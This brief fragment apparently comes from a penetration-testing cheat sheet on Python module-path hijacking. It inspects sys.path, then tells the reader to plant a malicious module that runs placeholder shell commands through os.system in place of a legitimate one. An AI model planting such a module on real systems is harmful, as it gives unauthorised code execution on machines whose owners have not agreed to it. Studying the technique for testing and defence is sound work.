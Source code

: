 
```Python
import sys
sys.path
```

Create a malicious module and load it instead of the legitimate one
```Python
import os
os.system("<COMMAND>[;<COMMAND>]")
```
